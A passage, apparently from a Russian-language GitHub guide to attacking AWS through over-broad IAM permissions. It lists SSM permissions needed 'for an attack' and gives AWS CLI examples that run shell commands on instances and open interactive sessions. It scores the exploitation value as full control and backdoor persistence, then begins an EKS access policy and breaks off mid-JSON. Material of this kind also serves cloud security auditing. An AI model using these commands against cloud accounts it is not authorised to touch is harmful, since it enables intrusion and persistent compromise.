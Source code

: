 ```json
    ]
}
```

#### Минимальные права для атаки:
- **ssm:SendCommand** - отправка команд на инстансы
- **ssm:ListCommandInvocations** - просмотр выполнения команд
- **ssm:GetCommandInvocation** - получение результатов команд
- **ssm:DescribeInstanceInformation** - информация об инстансах
- **ssm:ListInstances** - список доступных инстансов

#### Расширенные права (максимально опасные):
- **ssm:StartSession** - интерактивные сессии
- **ssm:TerminateSession** - завершение сессий
- **ssm:ResumeSession** - возобновление сессий
- **ssm:GetConnectionStatus** - статус соединения

#### Примеры атак:
```bash
# Получение списка инстансов
aws ssm describe-instance-information

# Отправка команды на все инстансы
aws ssm send-command \
    --instance-ids "i-1234567890abcdef0" \
    --document-name "AWS-RunShellScript" \
    --parameters 'commands=["whoami", "id", "uname -a"]'

# Получение результатов команды
aws ssm get-command-invocation \
    --command-id "command-id" \
    --instance-id "i-1234567890abcdef0"

# Интерактивная сессия
aws ssm start-session --target "i-1234567890abcdef0"
```

#### Эксплуатационная ценность: 🔥🔥🔥🔥🔥 (35 баллов)
- **Полный контроль** над серверами
- **Выполнение произвольных команд** без SSH
- **Установка персистентности** и бэкдоров

---

### 🔍 Этап 4: Доступ к EKS кластерам

#### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "eks:DescribeCluster",
                "eks:ListClusters",
                "eks:DescribeNodegroup",
                "eks:ListNodegroups",
                "eks:AccessKubernetesApi"
            ],
            "Resource": "*"
        },
        {
            "Effect": "Allow",
```